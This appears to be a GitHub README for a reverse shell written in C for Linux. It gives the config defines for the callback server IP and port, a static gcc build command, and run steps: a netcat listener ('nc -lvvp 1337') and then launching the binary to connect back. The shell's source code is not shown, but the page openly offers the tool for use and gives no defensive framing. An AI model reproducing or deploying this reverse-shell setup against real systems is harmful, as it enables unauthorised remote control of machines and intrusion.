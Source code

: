 ### For Linux Machines!
<h1 align="center">
	<img src="https://img.icons8.com/ios-filled/344/console.png" width="150px"><br>
    Reverse Shell written in C.
</h1>

### Configuration
Go into `includes/config.h` to change all this.
```c
#pragma once

#define SERVER_IP "127.0.0.1" // Change to your server IP
#define SERVER_PORT 1337 // Changing this is optional
```
### Compiling
```
gcc -static -o reverse_shell main.c
```
### Running
```
[user@linux]$ nc -lvvp 1337 -s 127.0.0.1
-----------------------
[user@linux]$ ./reverse_shell
``` 
### Contributions 🎉
###### If you're interested in contributing simply open a pull request!
